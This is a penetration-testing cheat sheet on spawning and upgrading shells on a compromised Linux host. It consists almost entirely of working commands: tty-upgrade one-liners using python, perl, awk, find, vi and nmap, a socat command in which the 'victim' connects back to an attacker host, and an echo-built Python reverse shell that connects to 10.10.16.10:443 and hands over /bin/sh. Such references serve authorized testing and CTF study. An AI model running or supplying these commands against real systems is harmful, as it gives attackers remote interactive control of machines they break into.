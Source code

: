 # Spawning Shells



### Non-interactive tty-shell <a id="non-interactive-tty-shell"></a>

If you have a non-tty-shell there are certain commands and stuff you can't do. This can happen if you upload reverse shells on a webserver, so that the shell you get is by the user www-data, or similar. These users are not meant to have shells as they don't interact with the system has humans do.

So if you don't have a tty-shell you can't run `su`, `sudo` for example. This can be annoying if you manage to get a root password but you can't use it.

Anyways, if you get one of these shells you can upgrade it to a tty-shell using the following methods:

**Using python**

```text
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

**Echo**

```text
echo 'os.system('/bin/bash')'
```

**sh**

```text
/bin/sh -i
```

**bash**

```text
/bin/bash -i
```

**Perl**

```text
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
```

**Ruby**

```text
ruby: exec "/bin/sh"
```

**Awk**

```text
awk 'BEGIN {system("/bin/sh")}'
```

**Find**

```text
find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

**More, less, or man**

Type more, less, or man command with a file then try one of the following:

```text
'! /bin/sh'
'!/bin/sh'
'!bash'
```

**Lua**

```text
lua: os.execute('/bin/sh')
```

**From within IRB**

```text
exec "/bin/sh"
```

**From within VI**

```text
:!bash
```

or

```text
:set shell=/bin/bash:shell
```

or execute

```text
vi ;/bin/bash
```

once exit vi \(:q!\) we would get a shell. Helpful in scenarios where the user is asked to input which file to open

**From within nmap**

```text
!sh
```

### Interactive tty-shell <a id="interactive-tty-shell"></a>

#### **Method \#1** <a id="method-1"></a>

## Python pty module <a id="method1pythonptymodule"></a>

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

#### Method \#2 <a id="method-2"></a>

## Using socat <a id="method2usingsocat"></a>

So if you manage to upgrade to a non-interactive tty-shell you will still have a limited shell. You won't be able to use the up and down arrows, you won't have tab-completion. This might be really frustrating if you stay in that shell for long. It can also be more risky, if a execution gets stuck you cant use Ctr-C or Ctr-Z without killing your session. However that can be fixed using socat. Follow these instructions.

**On Kali \(listen\):**

```text
socat file:`tty`,raw,echo=0 tcp-listen:4444  
```

**On Victim \(launch\):**

```text
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<AttackerIP>:4444
```

[https://github.com/cornerpirate/socat-shell](https://github.com/cornerpirate/socat-shell)

#### Method \#3 <a id="method-3"></a>

**Using stty**

```text
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

### Misc: Simple Reverse Shell <a id="misc-simple-reverse-shell"></a>

```text
echo "import socket" > script.py
echo "import subprocess" >> script.py
echo "import os" >> script.py
echo "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)" >> script.py
echo 's.connect(("10.10.16.10",443))' >> script.py
echo "os.dup2(s.fileno(),0)" >> script.py
echo "os.dup2(s.fileno(),1)" >> script.py
echo "os.dup2(s.fileno(),2)" >> script.py
echo 'p=subprocess.call(["/bin/sh","-i"])' >> script.py
```

